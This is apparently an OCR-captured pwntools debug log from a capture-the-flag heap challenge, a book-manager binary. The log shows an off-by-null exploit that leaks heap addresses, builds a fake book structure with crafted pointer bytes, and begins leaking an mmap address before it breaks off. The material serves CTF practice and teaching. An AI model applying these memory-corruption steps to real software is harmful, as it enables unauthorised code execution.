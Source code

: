 ```powershell
    00000060  3a 20 32 0a  4e 61 6d 65  3a 20 62 6f  6f 6b 32 5f  │: 2·│Name│: bo│ok2_│
    00000070  6e 61 6d 65  0a 44 65 73  63 72 69 70  74 69 6f 6e  │name│·Des│crip│tion│
    00000080  3a 20 62 6f  6f 6b 32 5f  64 65 73 63  0a 41 75 74  │: bo│ok2_│desc│·Aut│
    00000090  68 6f 72 3a  20 61 61 61  61 61 61 61  61 61 61 61  │hor:│ aaa│aaaa│aaaa│
    000000a0  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    000000b0  61 61 61 61  61 60 83 75  55 55 55 0a  0a 31 2e 20  │aaaa│a`·u│UUU·│·1. │
    000000c0  43 72 65 61  74 65 20 61  20 62 6f 6f  6b 0a 32 2e  │Crea│te a│ boo│k·2.│
    000000d0  20 44 65 6c  65 74 65 20  61 20 62 6f  6f 6b 0a 33  │ Del│ete │a bo│ok·3│
    000000e0  2e 20 45 64  69 74 20 61  20 62 6f 6f  6b 0a 34 2e  │. Ed│it a│ boo│k·4.│
    000000f0  20 50 72 69  6e 74 20 62  6f 6f 6b 20  64 65 74 61  │ Pri│nt b│ook │deta│
    00000100  69 6c 0a 35  2e 20 43 68  61 6e 67 65  20 63 75 72  │il·5│. Ch│ange│ cur│
    00000110  72 65 6e 74  20 61 75 74  68 6f 72 20  6e 61 6d 65  │rent│ aut│hor │name│
    00000120  0a 36 2e 20  45 78 69 74  0a 3e 20                  │·6. │Exit│·> │
    0000012b
[+] Book1_addr : 0x555555758360
[*] Calculating book_2's address...
[+] Book2_addr : 0x555555758390
[*] Prepare to construct a fake book...
[DEBUG] Sent 0x2 bytes:
    '3\n'
[DEBUG] Received 0x24 bytes:
    'Enter the book id you want to edit: '
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x1c bytes:
    'Enter new book description: '
[DEBUG] Sent 0x91 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000070  01 00 00 00  00 00 00 00  98 83 75 55  55 55 00 00  │····│····│··uU│UU··│
    00000080  98 83 75 55  55 55 00 00  ff ff 00 00  00 00 00 00  │··uU│UU··│····│····│
    00000090  0a                                                  │·│
    00000091
[+] Fake book constructed! And two pointers were set to book2.
[DEBUG] Received 0x6f bytes:
    '\n'
    '1. Create a book\n'
    '2. Delete a book\n'
    '3. Edit a book\n'
    '4. Print book detail\n'
    '5. Change current author name\n'
    '6. Exit\n'
    '> '
[*] Off-BY-NULL again! Now Book1 was set to the fake book.
[DEBUG] Sent 0x2 bytes:
    '5\n'
[DEBUG] Received 0x13 bytes:
    'Enter author name: '
[DEBUG] Sent 0x21 bytes:
    'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\n'
[DEBUG] Received 0x6f bytes:
    '\n'
    '1. Create a book\n'
    '2. Delete a book\n'
    '3. Edit a book\n'
    '4. Print book detail\n'
    '5. Change current author name\n'
    '6. Exit\n'
    '> '
[*] Leaking mmap address...
[DEBUG] Sent 0x2 bytes:
    '4\n'
[DEBUG] Received 0x10d bytes:
```